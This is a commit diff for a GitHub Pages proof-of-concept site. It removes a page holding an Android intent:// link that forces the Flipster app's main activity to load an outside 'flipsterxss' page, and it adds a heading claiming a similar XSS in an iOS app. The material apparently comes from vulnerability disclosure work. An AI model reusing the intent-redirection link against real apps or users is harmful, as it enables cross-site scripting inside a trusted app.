

Before and after one commit to xaleraf4ra/test-poc.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html with new heading
Replaced existing content with a heading for Levex iOS App.

```diff
--- a/index.html
+++ b/index.html
@@ -1,15 +1 @@
-<!DOCTYPE html>
-<html>
-<head>
-    <title>Flipster PoC</title>
-    <meta name="viewport" content="width=device-width, initial-scale=1">
-</head>
-<body>
-    <h2>Flipster Intent Redirection PoC</h2>
-    <p>Click the link below on a device with Flipster installed:</p>
-
-    <p><a href="intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;action=android.intent.action.VIEW;package=com.prestolabs.android.prex;component=com.prestolabs.android.prex/.presentations.ui.MainActivity;end">
-        Open Flipster (XSS PoC)
-    </a></p>
-</body>
-</html>
+<h1>Levex iOS App XSS like in android app</h1>
```
